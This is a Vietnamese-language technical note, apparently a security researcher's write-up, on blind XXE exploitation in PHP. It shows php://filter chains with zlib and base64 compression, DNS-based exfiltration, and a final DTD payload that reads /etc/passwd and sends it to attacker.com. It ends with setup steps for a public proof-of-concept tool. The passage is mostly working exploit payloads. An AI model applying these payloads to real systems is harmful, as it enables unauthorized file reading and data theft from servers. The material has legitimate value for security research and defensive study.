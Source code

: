 → Xử lý vấn đề độ dài bằng zlib:
- Vì filter lặp nhiều → có thể nén rất tốt.
→ Dùng `zlib.deflate` rồi base64 để nén DTD lại trước khi dùng.
`php://filter/zlib.deflate/convert.base64-encode/resource=/payload.dtd`

Payload: 
```xml
<!DOCTYPE x SYSTEM "php://filter/convert.base64-decode/zlib.inflate/resource=data:BASE64_ZLIB_DATA," []><x></x>
```

Dữ liệu được gửi qua DNS request → kẻ tấn công log lại tên miền truy cập để thu thập file

![](http://note.bksec.vn/pad/uploads/955a7dfc-738a-468b-8568-896e304ae7a1.png)

⚠️ Lưu ý:
- Mỗi phần giữa dấu . không được dài hơn 63 ký tự
- DNS như Google có thể đổi A → a, cần check lại base64

Final Payload:

🧱 Phần DOCTYPE chính
```xml
<!DOCTYPE x SYSTEM "php://filter/convert.base64-decode/zlib.inflate/resource=data:,[ZLIB_ENCODED_DTD]" []>
```

🧱 Nội dung bên trong DTD (sau khi giải nén):
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/[wrapwrap_filters]/dechunk/resource=/etc/passwd">
<!ENTITY % exf %data;>
<!ENTITY % payload '<!ENTITY &#37; e SYSTEM "php://filter/resource=http://attacker.com?exf=%exf;">'>
%payload;
%e;
```

![](http://note.bksec.vn/pad/uploads/a8b8e009-afc3-4167-a8d9-199fa7b26780.png)

## [Tool exploit](https://github.com/bytehope/wwe)

PoC tool (based on [wrapwrap](https://github.com/ambionics/wrapwrap) & [lightyear](https://github.com/ambionics/lightyear) ) to demonstrate XXE in PHP with only `LIBXML_DTDLOAD` or `LIBXML_DTDATTR` flag set

### Usage:
#### Setup
```sh
git clone https://github.com/bytehope/wwe.git
cd wwe
pip install -r requirements.txt
```

#### Tool arguments
